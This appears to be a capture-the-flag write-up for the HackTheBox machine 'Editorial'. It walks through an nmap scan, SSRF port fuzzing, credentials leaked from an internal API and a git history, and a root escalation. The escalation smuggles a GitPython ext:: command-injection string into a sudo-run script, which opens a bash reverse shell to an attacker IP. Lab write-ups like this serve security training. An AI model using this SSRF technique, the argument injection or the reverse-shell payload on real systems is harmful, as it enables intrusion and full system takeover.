




# Enumeration
## NMAP

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 07:11 EDT
Nmap scan report for 10.10.11.20
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.06 seconds
```

```bash
ffuf -request ssrf_request -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```
```bash
ffuf -request ssrf_request -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg" --debug-log /dev/stdout
```
```bash
5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 153ms]
:: Progress: [65535/65535] :: Job [1/1] :: 232 req/sec :: Duration: [0:03:36] :: Errors: 1 ::
```
We discovered that the port 5000 is open. Returning to Burp we can send a request via the repeater and expect an answer back.



Going to the url we got from the answer, the site downloads a json file.

```json
{
    "messages": [
      {
        "promotions": {
          "description": "Retrieve a list of all the promotions in our library.",
          "endpoint": "/api/latest/metadata/messages/promos",
          "methods": "GET"
        }
      },
      {
        "coupons": {
          "description": "Retrieve the list of coupons to use in our library.",
          "endpoint": "/api/latest/metadata/messages/coupons",
          "methods": "GET"
        }
      },
      {
        "new_authors": {
          "description": "Retrieve the welcome message sended to our new authors.",
          "endpoint": "/api/latest/metadata/messages/authors",
          "methods": "GET"
        }
      },
      {
        "platform_use": {
          "description": "Retrieve examples of how to use the platform.",
          "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
          "methods": "GET"
        }
      }
    ],
    "version": [
      {
        "changelog": {
          "description": "Retrieve a list of all the versions and updates of the api.",
          "endpoint": "/api/latest/metadata/changelog",
          "methods": "GET"
        }
      },
      {
        "latest": {
          "description": "Retrieve the last version of api.",
          "endpoint": "/api/latest/metadata",
          "methods": "GET"
        }
      }
    ]
  }
```
This json file is a description for the endpoints of an api running on localhost. Using the repeater on Burp we can send requests on each of the endpoints.
The authors and coupons endpoints return the following.

```json
[
    {
      "2anniversaryTWOandFOURread4": {
        "contact_email_2": "info@tiempoarriba.oc",
        "valid_until": "12/02/2024"
      }
    },
    {
      "frEsh11bookS230": {
        "contact_email_2": "info@tiempoarriba.oc",
        "valid_until": "31/11/2023"
      }
    }
  ]
```
```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\n

Your login credentials for our internal forum and authors site are:\n
Username: dev\n
Password: dev080217_devAPI!@\n
Please be sure to change your password as soon as possible for security purposes.\n\n

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\n

Best regards, Editorial Tiempo Arriba Team."}
```

We discovered the username and password for the dev user. We can try connecting to the target machine via SSH



Exploring the machine we can find a second user `prod` and an empty .git folder in the `apps` directory

```bash
dev@editorial:~/apps/.git$ git log -Gprod
```
We can search the commit history to find if any of the commits contains the word prod

```bash
dev@editorial:~/apps/.git$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae                                                                                                                                                                                                                                                
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>                                                                                                                                                                                                                         
Date:   Sun Apr 30 20:55:08 2023 -0500                                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                                                               
    change(api): downgrading prod to dev                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                               
    * To use development environment.                                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                                                               
diff --git a/app_api/app.py b/app_api/app.py                                                                                                                                                                                                                                                   
index 61b786f..3373b14 100644                                                                                                                                                                                                                                                                  
--- a/app_api/app.py                                                                                                                                                                                                                                                                           
+++ b/app_api/app.py                                                                                                                                                                                                                                                                           
@@ -64,7 +64,7 @@ def index():                                                                                                                                                                                                                                                                 
 @app.route(api_route + '/authors/message', methods=['GET'])                                                                                                                                                                                                                                   
 def api_mail_new_authors():                                                                                                                                                                                                                                                                   
     return jsonify({                                                                                                                                                                                                                                                                          
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."                                                   
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."                                                          
     }) # TODO: replace dev credentials when checks pass                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                               
 # -------------------------------       
```
We discovered a new set of credentials `prod` `080217_Producti0n_2023!@`



The user `prod` can run as root the `clone_prod_change.py`

Searching for a vulnerability regarding the python Repo package we find this on **[Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)**.

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

The vulnerability is allowing for code to be executed after the ext:: which means that we can open a nc listener and get a root reverse shell

```bash
"ext::sh -c bash% -c% 'bash% -i% >&% /dev/tcp/10.10.14.17/4445% 0>&1'"
```

```bash
prod@editorial:/home/dev/apps/.git$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c bash% -c% 'bash% -i% >&% /dev/tcp/10.10.14.17/4445% 0>&1'"
```
